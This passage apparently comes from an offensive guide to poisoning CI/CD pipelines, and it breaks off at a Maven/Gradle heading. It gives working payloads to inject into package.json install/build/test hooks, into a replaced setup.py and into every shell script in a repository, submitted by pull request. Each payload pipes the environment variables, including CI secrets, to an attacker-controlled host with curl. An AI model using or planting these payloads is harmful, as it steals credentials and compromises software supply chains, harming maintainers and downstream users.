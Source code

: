 > The file may contain a `scripts` object with custom commands to run.\
`preinstall`, `install`, `build` & `test` are often executed by default in most CI/CD pipelines - hence they are good targets for injection.\
> If you come across a `package.json` file - edit the `scripts` object and inject your instruction there


NOTE: the payloads in the instructions above must be `json escaped`.

Example:
```json
{
  "name": "my_package",
  "description": "",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "set | curl -X POST --data-binary @- {YourHostName}",
    "install": "set | curl -X POST --data-binary @- {YourHostName}",
    "build": "set | curl -X POST --data-binary @- {YourHostName}",
    "test": "set | curl -X POST --data-binary @- {YourHostName}"
  },
  "repository": {
    "type": "git",
    "url": "https://github.com/foobar/my_package.git"
  },
  "keywords": [],
  "author": "C.Norris"
}
```


### Python - setup.py

> `setup.py` is used by python's package managers during the build process.
It is often executed by default.\
> Replacing the setup.py files with the following payload may trigger their execution by the CI.

```python
import os

os.system('set | curl -X POST --data-binary @- {YourHostName}')
```


### Bash / sh - *.sh

> Shell scripts in the repository are often executed in custom CI/CD pipelines.\
> Replacing all the `.sh` files in the repo and submitting a pull request may   trigger their execution by the CI.

```shell
set | curl -X POST --data-binary @- {YourHostName}
```



### Maven / Gradle
